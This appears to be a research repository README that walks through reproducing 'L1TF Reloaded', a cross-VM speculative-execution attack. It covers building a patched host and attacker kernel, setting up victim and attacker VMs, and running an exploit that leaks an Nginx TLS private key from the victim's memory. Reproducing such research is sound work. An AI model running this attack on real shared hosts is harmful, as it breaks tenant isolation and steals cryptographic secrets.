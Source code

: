 Skylake Server
==============

We assume you have access to a Skylake server running Ubuntu 24.04.

You can for example get access to such a machine via the Chameleon Cloud:
https://chameleoncloud.readthedocs.io/en/latest/getting-started/


Install the required packages on the server:
```
sudo apt-get update
sudo apt install -y locales-all fakeroot git kernel-wedge quilt ccache flex bison libssl-dev dh-exec rsync libelf-dev bc libncurses-dev lz4 liblz4-dev tmux cmake libgmp3-dev debootstrap
```
And clone our repo:
```
git clone git@github.com:vusec/rain.git ~/rain
```

Host Kernel
===========

We start by preparing the host kernel.
```
mkdir ~/host; cd ~/host
```
Get Linux kernel v6.12 source code:
```
git clone --branch v6.12 --depth=1 https://github.com/torvalds/linux.git
```
Take your current Ubuntu 24.04 kernel config, and disable kernel signature checking:
```
cd linux
cp /boot/config-6.8.0-64-generic .config
scripts/config -d CONFIG_SYSTEM_REVOCATION_KEYS -d CONFIG_SYSTEM_TRUSTED_KEYS
make olddefconfig
```
Optionally, if you want to add "helper hypercalls", useful for debugging and
exploit development, add them to the host kernel now. For example, apply the
patch `setup/helper-hc.patch`. This would allow you to use `HELPERS=1` and
`LEAK=CHEAT` in `include/config.h`, to run the exploit without L1TF leakage, but
with hypercall-reads instead, as a sanity check.
Then build the kernel:
```
make bindeb-pkg -j`nproc`
```
Install the new kernel:
```
sudo dpkg -i *6.12*.deb
```
And reboot into it:
```
sudo reboot
```
After reboot, ensure Linux-6.12.0 is running:
```
uname -r
```
Also check that you have the default Ubuntu L1TF mitigations, namely SMT on and
conditional L1D flushing:
```
lscpu | grep -i l1tf
```

Victim VM
=========

Let's create the victim VM. As its kernel we take the same, 6.12 kernel we build
for the host. We make the disk 32 GB and put a default (latest stable) Debian
installation on it.
```
mkdir ~/victim; cd ~/victim
~/rain/setup/bootstrap-vm.sh --name victim --size 32 --kernel ~/host/linux
```
Boot the victim VM on two siblings of one physical core (CPU 0's):
```
./run-vm.sh victim 7777 `cat /sys/devices/system/cpu/cpu0/topology/thread_siblings_list`
```
Wait a few seconds for the VM to boot up, and then copy over this install script:
```
scp ~/rain/setup/install_nginx_https.sh victim:~
```
Login to the victim VM:
```
ssh victim
```
And install Nginx, generate a self-signed TLS certificate, and configure Nginx
to HTTPS:
```
./install_nginx_https.sh
``` 
Take a look at Nginx's private key of its TLS certificate:
```
sudo cat /etc/ssl/private/nginx-selfsigned.key
```
If all goes well, our attacker VM should leak this key from Nginx's memory.
Exit the victim VM, to go back to the host:
```
exit
```

Attacker VM
===========

For the attacker VM's kernel, we reuse the same linux kernel tree, and we'll
install a page fault handler bypass:
```
cd ~/host/linux
git apply ~/rain/setup/l1tf-pf.patch
```
Next, we bootstrap the attack VM:
```
mkdir ~/attacker; cd ~/attacker
cp ~/rain/setup/*-vm.sh .
./bootstrap-vm.sh --name attacker --size 32 --kernel ~/host/linux
```
Boot the attacker VM on two siblings of another physical core (CPU 1's) than the victim:
```
./run-vm.sh attacker 7778 `cat /sys/devices/system/cpu/cpu1/topology/thread_siblings_list`
```
Check that indeed the attacker and victim run on separate physical cores, as is
enforced by the core-scheduling mitigation:
```
taskset -c -p `sudo cat ~/victim/victim.pid`
taskset -c -p `sudo cat ~/attacker/attacker.pid`
```

Exploit: L1TF Reloaded
======================

SSH into the attack VM:
```
ssh attacker
```
And clone the exploit code:
```
git clone git@github.com:vusec/rain.git
cd rain
```
Load the required dependencies and install the needed kernel modules:
```
make load_modules
```
Ensure `include/config.h` holds the following configuration:
```
#define MACHINE LINUX_6_12
#define HELPERS 0
#define LEAK L1TF
```
Note: if you want a sanity check first, and you have installed helper hypercalls
in the host kernel, then you can also first put `HELPERS` to 1 and `LEAK` to
`CHEAT`.
In `include/constants.h`, ensure this line defines the correct amount of host
physical memory on you system (check with `free -h` on the host).
```
#define HOST_MEMORY_SIZE (64 * 1024ULL*1024*1024)
```

Build the exploit:
```
make exploit
```

Run the exploit:
```
make
```

This can take many hours, hence we recommend running this inside a tmux session or similar.
Output of `stdout` will go to the screen as well as the file `std.out`, and extra
verbose `stderr` output is saved in the file `std.err`.

If all goes well, you expect to see something similar to our demo, resulting in a leaked private key.
To check its correctness, compare it against the true key of the victim's Nginx webserver,
located at `victim:/etc/ssl/private/nginx-selfsigned.key`.
